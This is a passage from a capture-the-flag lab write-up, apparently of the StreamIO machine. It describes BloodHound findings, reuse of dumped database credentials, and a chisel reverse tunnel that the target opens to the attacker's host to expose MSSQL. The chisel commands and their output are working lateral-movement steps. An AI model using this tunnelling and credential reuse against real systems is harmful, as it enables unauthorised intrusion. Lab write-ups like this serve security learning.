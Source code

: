 ```bash

C:\inetpub\streamio.htb\admin>dir
```

I downloaded it from the web. Other players can't guess it and I had to use the lazest method to download the zip to my machine. 

## Analysing Bloodhound

![](@attachment/Clipboard_2022-09-13-10-58-24.png)


We see that NIKK37 can PS remote to DC: 

![](@attachment/Clipboard_2022-09-13-11-08-52.png)

let's target this user. I noticed that the user nikk37 is not part of the database we dumped before. Also, you can notice port mssql is open: 

![](@attachment/Clipboard_2022-09-12-16-37-08.png)


with winpease

![](@attachment/Clipboard_2022-09-12-16-50-44.png)

I browsed the dirs for a while before I did that. You never know what you can find. However I thought about mssql because we still have creds of the `db_admin`. 

Let's connect to mssql by performing port forwarding using chisel: 

On my machine: 

```bash
─$ chisel server -p 9000 --reverse
2022/09/13 12:01:16 server: Reverse tunnelling enabled
2022/09/13 12:01:16 server: Fingerprint 1tgcIT9rqoReBFG6Fjv9Nc11+sQKfa3qAQu3jeD2OtE=
2022/09/13 12:01:16 server: Listening on http://0.0.0.0:9000
2022/09/13 12:02:04 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2022/09/13 12:02:04 server: session#1: tun: proxy#R:1433=>1433: Listening
2022/09/13 12:09:44 server: session#2: Client version (1.7.7) differs from server version (0.0.0-src)
2022/09/13 12:09:44 server: session#2: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

On target machine: 

```bash
PS C:\inetpub\streamio.htb\admin> cmd /c chisel.exe client 10.10.14.96:9000 R:1433:127.0.0.1:1433
cmd /c chisel.exe client 10.10.14.96:9000 R:1433:127.0.0.1:1433
2022/09/13 12:02:37 client: Connecting to ws://10.10.14.96:9000
2022/09/13 12:02:38 client: Connected (Latency 129.8713ms)
```

Let's connect to mssqlclient using the previously obtained creds. 
